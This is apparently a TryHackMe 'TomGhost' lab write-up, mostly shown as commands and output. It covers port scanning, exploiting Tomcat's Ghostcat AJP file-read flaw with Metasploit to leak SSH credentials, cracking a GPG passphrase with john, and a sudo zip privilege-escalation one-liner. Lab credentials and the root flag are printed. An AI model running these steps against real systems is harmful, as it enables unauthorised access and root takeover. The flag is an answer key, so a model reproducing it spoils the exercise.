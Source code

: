 TomGhost is a easy level challenge in THM.

Got the following from the NMAP scan.

```diff
nmap -A -p- -sV -T4 10.10.105.174
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-13 07:31 EDT                                                                                                                                                                          
Nmap scan report for 10.10.105.174                                                                                                                                                                                                          
Host is up (0.22s latency).                                                                                                                                                                                                                 
Not shown: 65531 closed tcp ports (reset)                                                                                                                                                                                                   
PORT     STATE SERVICE    VERSION                                                                                                                                                                                                           
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                                                                                                                                                      
| ssh-hostkey:                                                                                                                                                                                                                              
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)                                                                                                                                                                              
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)                                                                                                                                                                             
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)                                                                                                                                                                           
53/tcp   open  tcpwrapped                                                                                                                                                                                                                   
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)                                                                                                                                                                                      
| ajp-methods:                                                                                                                                                                                                                              
|_  Supported methods: GET HEAD POST OPTIONS                                                                                                                                                                                                
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=8/13%OT=22%CT=1%CU=43671%PV=Y%DS=5%DC=T%G=Y%TM=66BB
OS:4765%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=106%TI=Z%CI=I%II=I%TS=8)
OS:OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508
OS:ST11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)
OS:ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF
OS:=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40
OS:%CD=S)

Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT       ADDRESS
1   30.73 ms  10.17.0.1
2   ... 4
5   634.53 ms 10.10.105.174

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 851.15 seconds

```

We can see multiple ports open. But Tomcat running on port 8080 looks interesting. It is a v9.0.30 of Tomcat. While looking for Tomcat vulnerabilities, I came across CVE-2020-1938 which is associated with this version of Tomcat. So what is this vulnerability?? 
This is also widely known as GhostCat vulnerability. Due to a flaw in the Tomcat AJP protocol, an attacker can read or include any files in the webapp directories of Tomcat.

There is a metasploit module associated with this vulnerability. I used that module.

```diff
msf6 > use  use auxiliary/admin/http/tomcat_ghostcat

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  auxiliary/admin/http/tomcat_ghostcat  2020-02-20       normal  Yes    Apache Tomcat AJP File Read


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/admin/http/tomcat_ghostcat

[*] Using auxiliary/admin/http/tomcat_ghostcat
msf6 auxiliary(admin/http/tomcat_ghostcat) > options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description                                                                                                                                                                                        
   ----      ---------------   --------  -----------                                                                                                                                                                                        
   FILENAME  /WEB-INF/web.xml  yes       File name                                                                                                                                                                                          
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html                                                                                             
   RPORT     8009              yes       The Apache JServ Protocol (AJP) port (TCP)                                                                                                                                                         
                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                            
View the full module info with the info, or info -d command.                                                                                                                                                                                
                                                                                                                                                                                                                                            
msf6 auxiliary(admin/http/tomcat_ghostcat) > set RHOSTS 10.10.105.174
RHOSTS => 10.10.105.174                                                                                                                                                                                                                     
msf6 auxiliary(admin/http/tomcat_ghostcat) > set RPORT 8080
RPORT => 8009                                                                                                                                                                                                                               
msf6 auxiliary(admin/http/tomcat_ghostcat) > run
[*] Running module against 10.10.105.174
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>

[+] 10.10.105.174:8009 - File contents save to: /home/whitedevil/.msf4/loot/20240813075455_default_10.10.105.174_WEBINFweb.xml_509790.txt
[*] Auxiliary module execution completed

```

We are using the default path to web.sml and we can see that we are able to read that file. There seems to be some potential credentials here "skyfuck:8730281lkjlkjdqlksalks". I tried to login to ssh using these credentials and that was a success.
After logging in we can see two files credentials.gpg and tryhackme.asc in the home directory of skyfuck. We need to cd back and cd into Merlin's directory for the user flag. 

Now for privilege escalation, sudo seems to be blocked for skyfuck and there are no interesting files with SUID permissions. Now, the two folder in the home directory of skyfuck seems to be the only way.

We can convert the signature file(.asc) into hash using gpg2john and try to crack that hash using john. For doing so, I used scp command and transferred tryhackme.asc to my host machine. Got the below results after hash cracking

```diff
john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)     
1g 0:00:00:00 DONE (2024-08-13 09:39) 5.555g/s 5955p/s 5955c/s 5955C/s chinita..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

We got a password "alexandru". I tried to use this password and ssh into the machine as root but infortunately this is not the root's password. So I tried with Merlin and Bingo! got access to Merlin's account. Now, I checked if I had sudo access and yes I seemed to have sudo access without password for ZIP 
```diff
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip

```

Then I used the following one liner to escalate my privileges to root and cat out the root flag.

```diff
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
$ whoami
root
$ cat /root/root.txt
THM{Z1P_1S_FAKE}

```

----THE END----